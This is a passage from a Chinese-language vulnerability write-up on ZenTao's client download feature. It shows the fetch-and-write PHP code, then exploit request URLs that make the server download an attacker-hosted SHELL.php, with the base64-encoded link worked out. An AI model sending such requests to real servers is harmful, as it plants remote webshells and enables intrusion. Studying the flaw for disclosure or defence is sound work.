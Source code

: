 ```php
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```

可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方

![](/images/202202162311411.png)

找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)

```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```
